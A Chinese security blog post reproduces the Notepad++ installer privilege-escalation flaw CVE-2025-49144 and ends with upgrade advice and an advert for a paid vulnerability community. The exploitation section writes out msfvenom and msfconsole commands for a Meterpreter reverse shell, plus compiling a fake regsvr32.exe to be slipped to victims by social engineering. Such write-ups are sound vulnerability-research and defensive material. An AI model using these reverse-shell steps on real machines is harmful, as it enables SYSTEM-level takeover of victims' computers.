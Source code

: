 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkwMzUyMjk2MQ==&mid=2247484532&idx=1&sn=8c5ab3be35fdf036e9844cdeeabada0b

#  Notepad++提权漏洞POC及一键部署环境（CVE-2025-49144）  
原创 a1batr0ss  天翁安全   2025-06-30 01:13  
  
**免责声明：**  
本公众号所发布的全部内容，包括但不限于技术文章、POC脚本、漏洞利用工具及相关测试环境，均仅限于合法的网络安全学习、研究和教学用途。所有人在使用上述内容时，应严格遵守中华人民共和国相关法律法规以及道德伦理要求。未经明确的官方书面授权，严禁将公众号内的任何内容用于未经授权的渗透测试、漏洞利用或攻击行为。 所有人仅可在自己合法拥有或管理的系统环境中进行本地漏洞复现与安全测试，或用于具有明确授权的合法渗透测试项目。所有人不得以任何形式利用公众号内提供的内容从事非法、侵权或其他不当活动。 如因违反上述规定或不当使用本公众号提供的任何内容，造成的一切法律责任、经济损失、纠纷及其他任何形式的不利后果，均由相关成员自行承担，与本公众号无任何关联。  
## 漏洞介绍  
  
Notepad++ 是一款功能强大的开源文本编辑器，适用于 Windows 平台，广泛用于程序开发和文本处理。它支持多种编程语言的语法高亮和代码折叠，内置插件系统可扩展功能，如正则查找替换、自动补全、FTP 编辑等。相比系统自带的记事本，Notepad++ 运行轻便、界面简洁，是程序员、运维人员和普通用户常用的编辑工具之一。  
  
Notepad++ 是一款免费开源的源代码编辑器。在 8.8.1 及之前的版本中，Notepad++ v8.8.1 安装程序存在一个权限提升漏洞，攻击者可以利用不安全的可执行文件搜索路径，使非特权用户获取 SYSTEM 级权限。攻击者可能通过社会工程学或点击劫持等手段，诱骗用户将合法安装程序与恶意可执行文件下载到同一目录（通常是“下载”文件夹，这被称为易受攻击目录）。当用户运行安装程序时，恶意代码将自动以 SYSTEM 权限执行。该问题已修复，并将在 8.8.2 版本中发布。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkjWdibFvGxAWSb1n9FgwTJKNMrp6vFDAWiccoEaumwD4wwtOKB0KkFlZA/640?wx_fmt=png&from=appmsg "")  
## 漏洞版本  
- Notepad++ < 8.8.2  
  
## 漏洞利用  
  
首先使用msfvenom生成shellcode，其中192.168.1.119是本地监听IP，8888是本地监听端口
```

```

  

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.119 LPORT=8888 -f c > shellcode.txt
```

  
接着将shellcode写入到regsvr32_loader.c中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIk9NgEx6gBIJGY2D5Y0WEIqvogAVRQtXzmdluQtTib7yodOaY8F1osHrQ/640?wx_fmt=png&from=appmsg "")  
  
然后执行以下命令生成一个regsvr32.exe  

```
x86_64-w64-mingw32-gcc regsvr32_loader.c -o regsvr32.exe -mwindows
```

  
再之后开启一个meterpreter监听  

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.119
set LPORT 8888
run
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkqiajAmiaoDH3gDqdaajWrburZUIDpiawq6jeJTpoBibCRRuPH7hBrkjOZA/640?wx_fmt=png&from=appmsg "")  
  
最后我们在目标受害机器上，把Notepad++安装包和regsvr32.exe放在同一个目录下，点击进行安装  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIk6gjk06fYbrxCo088lJiahywOufXyzKIlFssFWUNuDuJyjP3IEXMQA2Q/640?wx_fmt=png&from=appmsg "")  
  
安装会卡在上图的位置，此时查看meterpreter监听，发现已经成功获取了目标的管理员权限  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkjPGR0jw6L9SP7ncxVnOCHLRJia7hkGbibMMRzLZdxgCmoXZa3HvriawsQ/640?wx_fmt=png&from=appmsg "")  
  
原作者对此漏洞的利用方法解释如下：一般用户下载文件时，都会下载到同一个下载文件夹，此时就可以利用社会工程学等手段在用户下载Notepad++安装包时同时下载regsvr32.exe，当这两个文件在同一个目录下时，用户安装Notepad++时即可触发漏洞。  
  
在我看来这个条件还是挺苛刻的，相比利用过程，更难的还是如何诱导用户把Notepad++安装包和regsvr32.exe放到一个文件夹下。  
## 漏洞修复  
  
**修复需要将版本升级**  
- Notepad++ >= 8.8.2  
  
## 知识星球  
  
**漏洞利用POC和批量检查脚本**  
可在知识星球内自行领取  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIknUTKdxLc8FXE8ejbwL7cyp4dSxibvgjBA6Fo1ofENVeMH3csbGMEcKQ/640?wx_fmt=png&from=appmsg "")  
> 星球不定期更新市面上最新的热点漏洞及复现环境，欢迎加入交流和学习  
  
  
亮点一、**市面热点漏洞详细分析**  
，与**deepseek本地部署**  
息息相关的：Ollama任意文件读取漏洞（CVE-2024-37032）详细分析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkVmWj8z9B7prhiauSHK5Ejuic8xoVUPnqdmDWLsbNbpZrAHXWzjticmzVA/640?wx_fmt=png&from=appmsg "")  
  
亮点二、**近日最新披露的明星**  
漏洞POC：Roundcube Mail 后台代码执行漏洞复现（CVE-2025-49113）及POC  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkQyepCAuqhH39vw5Dm000efoRpeLiamF9ZJDXbwicLqsPCF1konlZJRug/640?wx_fmt=png&from=appmsg "")  
  
亮点三、**框架漏洞专题-若依：**  
  
若依某漏洞分析：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIk7VVicKFxbfhxEj8VnJZqiaWEJg1runnmtXvJkrXHJibjW4tnDIBaKSiaqg/640?wx_fmt=png&from=appmsg "")  
  
以及帮助师傅们轻松搭建若依环境的docker的tar包：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIk0UZjZzOyr0Y3Im8YYOliaEbhwEKRKHUToBRtr9VWNa60G2pSb2kOIZQ/640?wx_fmt=png&from=appmsg "")  
  
亮点四、**实战渗透测试技巧分享&讨论**  
：记一次信息泄漏到数据库接管的渗透测试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIk6iaFczgiaJ8ic2tkTX7YGKaag2KJibuurgusENicBmGbCYgkh44ickZPtDqA/640?wx_fmt=png&from=appmsg "")  
  
某次若依系统渗透测试带来的思考与讨论  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkKz0ECeObHACOialHZNCdjiccsEhorCXD7Zh7uU78Z0hUs6aeATCrPPtg/640?wx_fmt=png&from=appmsg "")  
  
亮点五、一些比较新奇有趣的漏洞分享：Windows**拖拽图标**  
而触发的漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkiaXqAE8r1niaOv0cVpBP4vczrFBAZJdnFGLujOxGd9mP36t1GwkkicYvw/640?wx_fmt=png&from=appmsg "")  
  
知识星球加入方式如下，欢迎师傅们加入进行学习和讨论！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/I2eHcAFia5S4lH6ZZauXia0hg0s93wJrIkvw4a00NBpMS5ex8OFBD3dc4Mf9BfPiagT2g214kdKcs3YByq9pGpKiaw/640?wx_fmt=png&from=appmsg "")  
  
